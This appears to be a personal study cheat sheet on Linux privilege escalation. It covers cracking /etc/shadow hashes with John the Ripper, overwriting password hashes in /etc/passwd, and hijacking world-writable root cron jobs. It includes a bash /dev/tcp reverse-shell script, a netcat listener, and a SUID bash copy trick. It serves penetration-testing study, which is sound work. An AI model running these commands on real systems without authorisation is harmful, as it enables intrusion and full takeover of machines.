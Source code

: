 # Privileges Escalation - Linux

## /etc/shadow file
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.

  <img src="../imgs/shadow.png" alt="shadowImg" />

  That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - **UPDATE:** probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.

## /etc/passwd file
- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.

  <img src="../imgs/passwd.png" alt="passwdImg" />

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.

  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.

## /etc/sudoers file
- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.

  <img src="../imgs/sudoers.png" alt="sudoersImg" />

## /etc/crontab file
- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).

  <img src="../imgs/crontab.png" alt="crontab">

  Example of cron jobs scheduled to run **as root** every minute:
  
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">
   
  - `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. 
  - `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.

  - If one of these **cron jobs are world-writable** and **you're not root**, it's possible to modify and exploit them. For example we could modify `overwrite.sh` with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - Then `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.<br><br>
  - If one of these **cron jobs are world-writable and searched in `/home/user` path** and **you're not root**, it's possible to modify and exploit them to gain a root shell in this way:
  ```
  #!/bin/bash
  cp /bin/bash /tmp/rootbash
  chmod +xs /tmp/rootbash
  ```
  - This script will copy the `/bin/bash` shell to a temporary directory and will give it execution and suid permissions (it assumes the privileges of the user who owns the file, **root** in this case). In this way, we can run a root shell, so we escalated privileges!
  


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
